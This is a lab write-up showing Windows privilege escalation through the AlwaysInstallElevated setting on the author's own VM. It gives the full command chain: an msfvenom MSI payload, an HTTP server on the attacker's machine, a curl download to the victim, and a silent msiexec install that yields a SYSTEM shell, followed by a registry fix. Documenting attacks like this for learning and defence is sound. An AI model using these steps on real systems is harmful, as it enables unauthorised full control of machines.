


# Windows Privilege Escalation using AlwaysInstallElevated
> ⚠️ Disclaimer: This project is for **educational & documentation purposes**.I have created a vulnerability on VM which allows me to escalate Privileges. Do not use these 
techniques on systems you do not own or have explicit permission to test.

## Overview
This document walks through a Windows privilege escalation attack leveraging the **AlwaysInstallElevated** misconfiguration. We demonstrate the process step-by-step using a deliberately created low-privileged user and successfully escalate privileges to **NT AUTHORITY\SYSTEM**.

---

## 🔧 Environment Setup
- **OS:** Windows 10 (x64)
- **Attacker Machine:** Kali Linux
- **Tools Used:**
  - `winPEAS.exe` - Local enumeration tool for Windows
  - `msfvenom` - Payload generator from Metasploit Framework
  - `msiexec` - Windows Installer executable
  - `curl` - For file transfer

---

## 👤 Creating a Low-Privileged User
We created a new local user to simulate a compromised low-privilege environment:

```
net user sujit password123 /add
net localgroup Users sujit /add
```

This user **does not** have administrative rights by default.

---

## 🔍 Enumeration with winPEAS
We transferred and executed `winPEAS.exe` under the `sujit` account. During enumeration, it flagged the following:



*Figure 1: Running winPEAS.exe and finding a vulnerability*

```
[+] Checking AlwaysInstallElevated
  HKLM\...\Installer\AlwaysInstallElevated = 1
```

> The `HKLM` (machine-wide) key was set to `1`, enabling a vulnerability. The `HKCU` (user-specific) key was not set due to lack of permissions from the low-priv user.

This misconfiguration allows **any user** to install MSI files with elevated privileges if both registry keys are set. In our case, we manually set both as an admin.

---

## ⚠️ Vulnerability: AlwaysInstallElevated

**What it is:** A Windows policy that, when enabled, lets users install MSI packages with elevated privileges.

**Why it’s dangerous:** If both of these registry keys are set to `1`:
- `HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

Then **any user** can escalate to SYSTEM by installing a crafted `.msi` file.

**Real-world implication:** Attackers with local access can gain full control without triggering UAC.

---

## 💥 Exploitation

### Step 1: Generate Malicious MSI
On Kali Linux:
```
msfvenom -p windows/x64/exec CMD='cmd.exe' -f msi > payload.msi
```

**Explanation:**  
- `-p windows/x64/exec` - Run an arbitrary command (`cmd.exe`)
- `CMD='cmd.exe'` - Spawns a shell
- `-f msi` - Output format is a Windows Installer package

### Step 2: Host on HTTP server
```
python3 -m http.server 8000
```

### Step 3: Transfer to victim
On Windows as low-priv user:
```
curl http://192.168.1.30:8000/payload.msi -o payload.msi
```

### Step 4: Execute payload
```
msiexec /quiet /qn /i payload.msi
```

### ✅ Result:
A new command prompt opens with SYSTEM privileges:



*Figure 2: New Command prompt with highest privilege*

```
whoami
nt authority\system
```

---

## ✅ Conclusion
I successfully escalated privileges from a **low-privilege user** to **SYSTEM** using the `AlwaysInstallElevated` vulnerability. This attack is simple but highly effective when registry settings are misconfigured.

**Defensive Measure:**
Ensure both HKLM and HKCU registry keys for AlwaysInstallElevated are set to `0`, and restrict local user access.